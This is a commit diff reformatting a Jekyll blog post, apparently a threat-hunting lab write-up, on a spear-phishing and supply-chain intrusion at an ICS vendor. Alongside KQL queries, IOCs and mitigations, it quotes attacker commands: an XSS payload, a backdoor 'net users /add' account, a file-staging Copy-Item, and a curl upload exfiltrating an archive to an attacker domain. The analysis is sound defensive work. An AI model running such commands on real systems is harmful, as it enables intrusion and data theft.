

Before and after one commit to joshberk/joshberk.github.io, a Jekyll site: the page built from _posts/2026-06-20-operation-dockshock.md, in a window 1280 px wide and 1400 px high, scrolled down 4413 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
docs: adjust DOCKSHOCK layout to match literal PDF markdown structure

````diff
--- a/_posts/2026-06-20-operation-dockshock.md
+++ b/_posts/2026-06-20-operation-dockshock.md
@@ -17,22 +17,14 @@
 Date of Report: June 23, 2026
 Incident Window: May 1, 2024 – May 28, 2024
 
-### 1. Executive Summary
-During May 2024, a highly sophisticated, multi-stage supply chain espionage campaign was
-detected and triaged targeting **Solvi Systems**. Solvi Systems develops the **DOCKS Industrial
-Control Systems (ICS)** software, which governs energy distribution across South Africa,
-Mozambique, Eswatini, Zimbabwe, and Namibia.
+## 1. Executive Summary
 
-The threat actor initially conducted perimeter web reconnaissance and cross-site scripting
-(XSS) probing before pivoting to a wide-scale spear-phishing campaign. The attack
-successfully achieved initial access on an administrative endpoint, established persistent
-command and control (C2) beaconing via a customized backdoor (ecobug.exe), elevated
-privileges to add local administrators, and moved laterally to an engineering-adjacent asset.
-The incident culminated in the targeting of the Software Development Lifecycle (SDLC)
-repository, unauthorized access to the internal development portal, and the exfiltration of
-sensitive product blueprints (CollectedData.zip) to an adversary-controlled API node via curl.
+During May 2024, a highly sophisticated, multi-stage supply chain espionage campaign was detected and triaged targeting **Solvi Systems**. Solvi Systems develops the **DOCKS Industrial Control Systems (ICS)** software, which governs energy distribution across South Africa, Mozambique, Eswatini, Zimbabwe, and Namibia.
 
-### 2. Incident Timeline
+The threat actor initially conducted perimeter web reconnaissance and cross-site scripting (XSS) probing before pivoting to a wide-scale spear-phishing campaign. The attack successfully achieved initial access on an administrative endpoint, established persistent command and control (C2) beaconing via a customized backdoor (ecobug.exe), elevated privileges to add local administrators, and moved laterally to an engineering-adjacent asset. The incident culminated in the targeting of the Software Development Lifecycle (SDLC) repository, unauthorized access to the internal development portal, and the exfiltration of sensitive product blueprints (CollectedData.zip) to an adversary-controlled API node via curl.
+
+## 2. Incident Timeline
+
 *   **[May 01, 00:00 UTC]** ── Initial automated reconnaissance of DOCKS product documentation begins.
 *   **[May 01, 15:51 UTC]** ── Phishing email delivered to Sales Rep Carla Wharton.
 *   **[May 01, 15:57 UTC]** ── User executes link; `ecobug.exe` payload successfully dropped.
@@ -42,12 +34,11 @@
 *   **[May 27, 16:45 UTC]** ── Data Staging: Core SDLC and DOCKS system source code compressed.
 *   **[May 28, (Subsequent)]** ── Data Exfiltration: `CollectedData.zip` exfiltrated via curl web POST.
 
-### 3. Technical Walkthrough & KQL Proofs
+## 3. Technical Walkthrough & KQL Proofs
 
-#### Phase 1: Baseline Assessment & Perimeter Triage
-The investigation initiated with an environment baseline analysis. The corporate headcount was
-validated at **500 employees**, and the core executive profile for Chief Technology Officer (CTO)
-Alexis Khoza was mapped out to identify potential high-value targeting.
+### Phase 1: Baseline Assessment & Perimeter Triage
+
+The investigation initiated with an environment baseline analysis. The corporate headcount was validated at **500 employees**, and the core executive profile for Chief Technology Officer (CTO) Alexis Khoza was mapped out to identify potential high-value targeting.
 
 ```kql
 // Query 1: Identifying the target profile of the CTO
@@ -55,7 +46,7 @@
 | where role == "CTO"
 ```
 
-`[SCREENSHOT PLACEHOLDER: Result showing Alexis Khoza, IP 10.10.0.7, hostname 7FVW-LAPTOP, and user agent profile]`
+[SCREENSHOT PLACEHOLDER: Result showing Alexis Khoza, IP 10.10.0.7, hostname 7FVW-LAPTOP, and user agent profile]
 
 ```kql
 // Query 2: Quantifying inbound communications to the executive tier
@@ -64,13 +55,11 @@
 | count
 ```
 
-**Result:** 31 inbound emails identified. Baseline network profiling also revealed that the threat
-actor was aggressively monitoring the domain, hunting for organizational context surrounding
-the docks-ics product string.
+**Result:** 31 inbound emails identified. Baseline network profiling also revealed that the threat actor was aggressively monitoring the domain, hunting for organizational context surrounding the docks-ics product string.
 
-#### Phase 2: Web Exploitation Analysis (WAF Deflection)
-On May 3, 2024, the Web Application Firewall (WAF) triggered a High-severity alert indicating
-an inbound Cross-Site Scripting (XSS) exploit attempt on the corporate feedback portal.
+### Phase 2: Web Exploitation Analysis (WAF Deflection)
+
+On May 3, 2024, the Web Application Firewall (WAF) triggered a High-severity alert indicating an inbound Cross-Site Scripting (XSS) exploit attempt on the corporate feedback portal.
 
 ```kql
 // Query 3: Isolating the WAF payload footprint in web logs
@@ -79,24 +68,20 @@
 | project timestamp, src_ip, user_agent, url, status_code
 ```
 
-`[SCREENSHOT PLACEHOLDER: Inbound event from 13.201.46.208 showing the 404 error code and Opera/8.64 user agent strings]`
+[SCREENSHOT PLACEHOLDER: Inbound event from 13.201.46.208 showing the 404 error code and Opera/8.64 user agent strings]
 
 *   **Attacker Payload:** `</script><script>alert('xss')</script>`
-*   **WAF Mitigation Status:** Deflected. The web server responded with a **404 Status Code**, preventing script execution.
-*   **Attacker User Agent:** `Opera/8.64.(X11; Linux x86_64; kok-IN) Presto/2.9.165 Version/10.00`
+*   **WAF Mitigation Status:** Deflected. The web server responded with a 404 Status Code, preventing script execution.
+*   **Attacker User Agent:** Opera/8.64.(X11; Linux x86_64; kok-IN) Presto/2.9.165 Version/10.00
 
-Expanding the search window around this user agent exposed a cluster of **4 malicious IP addresses**
-(`98.117.26.236`, `13.201.46.208`, `105.78.23.64`, `56.6.30.190`) executing **9 distinct
-exploitation requests** across a multi-day window. Passive DNS correlation mapping these IPs
-revealed 3 rogue domains staged for secondary deployment:
+Expanding the search window around this user agent exposed a cluster of **4 malicious IP addresses** (98.117.26.236, 13.201.46.208, 105.78.23.64, 56.6.30.190) executing **9 distinct exploitation requests** across a multi-day window. Passive DNS correlation mapping these IPs revealed 3 rogue domains staged for secondary deployment:
 1.  energy-trends4u.net
 2.  news-on-industry.com
 3.  eco-awareness-update.net
 
-#### Phase 3: Initial Access via Spear-Phishing
-Deflected at the web perimeter, the adversary pivoted to a targeted phishing campaign. Over
-56 malicious emails were distributed across the network, specifically targeting roles managing
-the utility software tier.
+### Phase 3: Initial Access via Spear-Phishing
+
+Deflected at the web perimeter, the adversary pivoted to a targeted phishing campaign. Over 56 malicious emails were distributed across the network, specifically targeting roles managing the utility software tier.
 
 ```kql
 // Query 4: Correlating adversary infrastructure to weaponized emails
@@ -107,21 +92,20 @@
 | order by timestamp asc
 ```
 
-`[SCREENSHOT PLACEHOLDER: Chronological table of phishing deliveries highlighting the first success to Carla Wharton]`
+[SCREENSHOT PLACEHOLDER: Chronological table of phishing deliveries highlighting the first success to Carla Wharton]
 
-The patient zero entry vector occurred on **May 1, 2024, at 15:51:41 UTC**. Carla Wharton
-(cawharton), a Sales Representative on host JUSP-LAPTOP, received a weaponized lure:
-*   **Sender:** `news@eco-awareness-updates.net` (Reply-To: `electric_updates@gmail.com`)
-*   **Subject:** `[EXTERNAL] Business Opportunity: Two major energy companies merging`
-*   **Lure Link:** `http://news-on-industry.com/search/online/files/public/Energy_Industry_Trends_2024_4_Solvi.docx`
+The patient zero entry vector occurred on **May 1, 2024, at 15:51:41 UTC**. Carla Wharton (cawharton), a Sales Representative on host JUSP-LAPTOP, received a weaponized lure:
+*   **Sender:** news@eco-awareness-updates.net (Reply-To: electric_updates@gmail.com)
+*   **Subject:** [EXTERNAL] Business Opportunity: Two major energy companies merging
+*   **Lure Link:** [http://news-on-industry.com/search/online/files/public/Energy_Industry_Trends_2024_4_Solvi.docx](http://news-on-industry.com/search/online/files/public/Energy_Industry_Trends_2024_4_Solvi.docx)
 
-At **15:57:41 UTC**, endpoint records confirm that the user executed the link. Within less than two
-minutes, a compilation macro dropped a standalone malicious payload onto the filesystem:
-*   **Path:** `C:\ProgramData\ecobug.exe`
-*   **SHA256 Hash:** `1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252`
+At 15:57:41 UTC, endpoint records confirm that the user executed the link. Within less than two minutes, a compilation macro dropped a standalone malicious payload onto the filesystem:
+*   **Path:** C:\ProgramData\ecobug.exe
+*   **SHA256 Hash:** 1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252
 
-#### Phase 4: Command & Control (C2) & Local Persistence
-At **17:38:25 UTC**, `ecobug.exe` initiated its outbound connection architecture to stabilize access.
+### Phase 4: Command & Control (C2) & Local Persistence
+
+At 17:38:25 UTC, ecobug.exe initiated its outbound connection architecture to stabilize access.
 
 ```kql
 // Query 5: Identifying the C2 execution telemetry on the host
@@ -130,33 +114,27 @@
 | where process_commandline contains "ecobug.exe"
 ```
 
-`[SCREENSHOT PLACEHOLDER: Process log detailing the ecobug.exe execution string with dest and port flags]`
+[SCREENSHOT PLACEHOLDER: Process log detailing the ecobug.exe execution string with dest and port flags]
 
-*   **C2 Command Line:** `ecobug.exe --timeout 6000 --dest 98.117.26.236 --port 1337`
-*   **Beaconing Signature:** The malware operated on a strict automated cadence, initiating
-    an outbound connection over **TCP Port 1337** exactly **1 time per day at 17:38:25**.
-*   **Scope of Compromise:** Expanding the beacon signature across the enterprise revealed
-    **470 total persistent connections** impacting **38 unique employee endpoints**.
+*   **C2 Command Line:** ecobug.exe --timeout 6000 --dest 98.117.26.236 --port 1337
+*   **Beaconing Signature:** The malware operated on a strict automated cadence, initiating an outbound connection over TCP Port 1337 exactly 1 time per day at 17:38:25.
+*   **Scope of Compromise:** Expanding the beacon signature across the enterprise revealed 470 total persistent connections impacting 38 unique employee endpoints.
 
-##### Privilege Escalation Block
-Once active on JUSP-LAPTOP, the threat actor spawned localized commands to create an
-access bridge, provisioning a permanent local administrator backdoor:
+#### Privilege Escalation Block
+
+Once active on JUSP-LAPTOP, the threat actor spawned localized commands to create an access bridge, provisioning a permanent local administrator backdoor:
 
 ```cmd
 net users /add gu@rd!an abc1toothree
 ```
 
-Following account creation, local asset discovery was conducted, concluding with the
-execution of the net use utility to parse mounted domain assets.
+Following account creation, local asset discovery was conducted, concluding with the execution of the net use utility to parse mounted domain assets.
 
-#### Phase 5: Lateral Movement & SDLC Data Exfiltration
-Using an identified variation in execution habit (`net use /PERSISTENT:YES`), the adversary moved
-laterally across the network segment on **May 27, 2024, at 16:23:10 UTC**, successfully
-compromising `SJ9V-MACHINE`. This host belonged to **Alexei Petrov**, the Docks Customer
-Success Manager.
+### Phase 5: Lateral Movement & SDLC Data Exfiltration
 
-The adversary immediately targeted the file share holding the core source configuration
-blueprints for the DOCKS ICS system:
+Using an identified variation in execution habit (net use /PERSISTENT:YES), the adversary moved laterally across the network segment on May 27, 2024, at 16:23:10 UTC, successfully compromising SJ9V-MACHINE. This host belonged to Alexei Petrov, the Docks Customer Success Manager.
+
+The adversary immediately targeted the file share holding the core source configuration blueprints for the DOCKS ICS system:
 
 ```powershell
 // Query 6: Tracking file accumulation and staging actions
@@ -164,21 +142,13 @@
 | where hostname == "SJ9V-MACHINE" and process_commandline contains "Copy-Item"
 ```
 
-`[SCREENSHOT PLACEHOLDER: The full PowerShell string copying network assets down to the local C:\ drive staging folder]`
+[SCREENSHOT PLACEHOLDER: The full PowerShell string copying network assets down to the local C:\ drive staging folder]
 
-*   **Data Scrape Command:**
-    ```powershell
-    Copy-Item -Path \\solvisystems.com\SharedDocs\SoftwareDevelopment\CycleDocuments\* -Destination C:\Users\alpetrov\CollectedData\Software_Cycle_Docs
-    ```
+*   **Data Scrape Command:** Copy-Item -Path \\solvisystems.com\SharedDocs\SoftwareDevelopment\CycleDocuments\* -Destination C:\Users\alpetrov\CollectedData\Software_Cycle_Docs
 
-The stolen contents were compressed locally into a single staging zip file titled **CollectedData.zip**.
-Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet
-(**devportal.solvisystems.com**) and read the `internal_process.pdf` deployment documentation. The
-adversary even used compromised mailboxes to distribute phishing messages internally under urgent security
-headings (**Urgent Request: DOCKS System Documentation 🚨**) to gather structural details.
+The stolen contents were compressed locally into a single staging zip file titled CollectedData.zip. Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet (devportal.solvisystems.com) and read the internal_process.pdf deployment documentation. The adversary even used compromised mailboxes to distribute phishing messages internally under urgent security headings (Urgent Request: DOCKS System Documentation 🚨) to gather structural details.
 
-On **May 28, 2024**, the adversary leveraged a raw web utility to bypass standard file transfer
-protocol tracking and exfiltrated the source blueprint archive directly over an encrypted web endpoint:
+On May 28, 2024, the adversary leveraged a raw web utility to bypass standard file transfer protocol tracking and exfiltrated the source blueprint archive directly over an encrypted web endpoint:
 
 ```kql
 // Query 7: Catching the final data exfiltration process command
@@ -186,31 +156,19 @@
 | where process_commandline contains "curl" and process_commandline contains "upload"
 ```
 
-`[SCREENSHOT PLACEHOLDER: Curl command executing the file POST wrapper to api.eco-awareness-update.net]`
+[SCREENSHOT PLACEHOLDER: Curl command executing the file POST wrapper to api.eco-awareness-update.net]
 
-*   **Exfiltration Command Line:**
-    ```bash
-    curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload
-    ```
+*   **Exfiltration Command Line:** curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload
 
-### 4. Strategic Defense & Mitigation Recommendations
-Based on the multi-layer tactical breakdown of **Operation DOCKSHOCK**, the following Tier-2
-defense architecture changes are mandated for deployment:
+## 4. Strategic Defense & Mitigation Recommendations
+
+Based on the multi-layer tactical breakdown of Operation DOCKSHOCK, the following Tier-2 defense architecture changes are mandated for deployment:
 
 1.  **Network Architecture Micro-Segmentation (IT/OT Defenses):**
-    Implement explicit network boundaries isolating the engineering software compilation zone
-    (devportal.solvisystems.com and SharedDocs) from general corporate sales and operations tiers.
-    Inter-zone file transfers must be gated behind multi-factor authorization proxies.
+    Implement explicit network boundaries isolating the engineering software compilation zone (devportal.solvisystems.com and SharedDocs) from general corporate sales and operations tiers. Inter-zone file transfers must be gated behind multi-factor authorization proxies.
 2.  **Strict Egress Application Whitelisting:**
-    Block all outbound perimeter egress over arbitrary high ports (such as TCP/1337). Restrict
-    command-line web automation utilities like curl and Invoke-WebRequest on user endpoints through
-    AppLocker or an equivalent Endpoint Detection and Response (EDR) policy to halt automated
-    exfiltration pipelines.
+    Block all outbound perimeter egress over arbitrary high ports (such as TCP/1337). Restrict command-line web automation utilities like curl and Invoke-WebRequest on user endpoints through AppLocker or an equivalent Endpoint Detection and Response (EDR) policy to halt automated exfiltration pipelines.
 3.  **Local Administrator Restriction & Account Creation Monitoring:**
-    Enforce a strict Local Administrator Password Solution (LAPS) framework. Deploy a high-severity
-    alert rule in the SIEM targeting any localized command invocation containing the `net user /add`
-    or `localgroup administrators` strings.
+    Enforce a strict Local Administrator Password Solution (LAPS) framework. Deploy a high-severity alert rule in the SIEM targeting any localized command invocation containing the net user /add or localgroup administrators strings.
 4.  **Credential Reset & Active Session Invalidation:**
-    Force an immediate enterprise-wide password and active-session token reset for all compromised
-    users (e.g., Carla Wharton, Alexei Petrov) and decommission the rogue local administrative
-    profile `gu@rd!an` across all 38 impacted endpoints.
+    Force an immediate enterprise-wide password and active-session token reset for all compromised users (e.g., Carla Wharton, Alexei Petrov) and decommission the rogue local administrative profile gu@rd!an across all 38 impacted endpoints.
````
